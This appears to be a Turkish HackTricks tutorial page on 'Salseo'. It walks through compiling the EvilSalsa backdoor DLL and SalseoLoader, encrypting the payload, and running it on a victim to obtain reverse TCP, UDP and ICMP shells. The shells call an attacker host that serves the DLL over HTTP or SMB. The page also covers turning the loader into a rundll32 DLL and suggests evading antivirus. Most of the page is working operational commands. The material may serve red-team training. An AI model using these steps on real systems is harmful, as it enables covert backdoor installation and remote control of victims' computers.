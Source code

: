 # Salseo

{% hint style="success" %}
AWS Hacking'ı öğrenin ve uygulayın: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## Derlemeleri Oluşturma

Kaynak kodunu github'dan indirin ve **EvilSalsa** ve **SalseoLoader**'ı derleyin. Kodu derlemek için **Visual Studio**'nun yüklü olması gerekmektedir.

Bu projeleri, kullanacak olduğunuz Windows işletim sisteminin mimarisi için derleyin (Windows x64'ü destekliyorsa, bu mimari için derleyin).

Mimarisi **Visual Studio içinde** **"Platform Target"** altında **sol "Build" Sekmesinde** seçebilirsiniz.

(\*\*Bu seçenekleri bulamazsanız, **"Project Tab"** üzerine tıklayın ve ardından **"\<Project Name> Özellikleri"**ne tıklayın)

![](<../.gitbook/assets/image (132).png>)

Daha sonra, her iki projeyi de derleyin (Build -> Build Solution) (Log içinde yürütülebilir dosyanın yolunu göreceksiniz):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Arka Kapıyı Hazırlama

Öncelikle, **EvilSalsa.dll**'yi kodlamalısınız. Bunu yapmak için **encrypterassembly.py** adlı python betiğini kullanabilir veya **EncrypterAssembly** projesini derleyebilirsiniz:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Şimdi Salseo işlemini gerçekleştirmek için ihtiyacınız olan her şeye sahipsiniz: **şifrelenmiş EvilDalsa.dll** ve **SalseoLoader'ın ikili dosyası.**

**SalseoLoader.exe ikili dosyasını makineye yükleyin. Herhangi bir AV tarafından tespit edilmemeleri gerekiyor...**

## **Arka kapıyı çalıştırın**

### **TCP ters kabuk almak (şifrelenmiş dll'yi HTTP üzerinden indirme)**

Ters kabuk dinleyici olarak nc'yi başlatmayı ve şifrelenmiş evilsalsa'yı sunmak için bir HTTP sunucusu başlatmayı unutmayın.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Bir UDP ters kabuk almak (SMB üzerinden kodlanmış dll indirme)**

Ters kabuk dinleyici olarak nc'yi başlatmayı ve kodlanmış evilsalsa'yı sunmak için bir SMB sunucusu başlatmayı unutmayın (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **ICMP ters kabuk almak (şifrelenmiş dll zaten kurbanın içinde)**

**Bu sefer ters kabuk almak için istemci tarafında özel bir araca ihtiyacınız var. İndirin:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP Yanıtlarını Devre Dışı Bırakın:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### İstemciyi çalıştırın:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Kurbanın içinde, salseo şeyini çalıştıralım:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Ana işlevi dışa aktaran DLL olarak SalseoLoader'ı derleme

Visual Studio kullanarak SalseoLoader projesini açın.

### Ana işlevden önce ekle: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Bu projeye DllExport yükleyin

#### **Araçlar** --> **NuGet Paket Yöneticisi** --> **Çözüm İçin NuGet Paketlerini Yönet...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **DllExport paketini arayın (Gözat sekmesini kullanarak) ve Yükle'yi seçin (ve açılan pencereyi kabul edin)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Projeler klasörünüzde **DllExport.bat** ve **DllExport\_Configure.bat** dosyaları görünmelidir.

### DllExport'u kaldırın

**Kaldır**'ı seçin (evet, tuhaf ama bana güvenin, gerekli)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### Visual Studio'yu kapatın ve DllExport\_configure'ı çalıştırın

Sadece **çıkın** Visual Studio'dan

Ardından, **SalseoLoader klasörüne** gidin ve **DllExport\_Configure.bat**'ı çalıştırın

**x64**'ü seçin (eğer x64 kutusunda kullanacaksanız, benim durumumda olduğu gibi), **System.Runtime.InteropServices**'ı seçin (**DllExport için Namespace** içinde) ve **Uygula**'yı seçin

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### Projeyi tekrar Visual Studio ile açın

**\[DllExport]** artık hata olarak işaretlenmemelidir

![](<../.gitbook/assets/image (8) (1).png>)

### Çözümü derleyin

**Çıkış Türü = Sınıf Kitaplığı** seçin (Proje --> SalseoLoader Özellikleri --> Uygulama --> Çıkış türü = Sınıf Kitaplığı)

![](<../.gitbook/assets/image (10) (1).png>)

**x64 platformunu** seçin (Proje --> SalseoLoader Özellikleri --> Derleme --> Platform hedefi = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Çözümü derlemek için: Derle --> Çözümü Derle (Çıktı konsolunda yeni DLL'nin yolu görünecektir)

### Oluşturulan Dll'yi test edin

Dll'yi test etmek istediğiniz yere kopyalayın ve yapıştırın.

Çalıştır:
```
rundll32.exe SalseoLoader.dll,main
```
Eğer hata görünmüyorsa, muhtemelen işlevsel bir DLL'niz var!!

## DLL kullanarak bir kabuk alın

Bir **HTTP** **sunucusu** kullanmayı ve bir **nc** **dinleyici** ayarlamayı unutmayın

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD

### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
AWS Hacking'ı öğrenin ve uygulayın: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'ı öğrenin ve uygulayın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR göndererek HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}
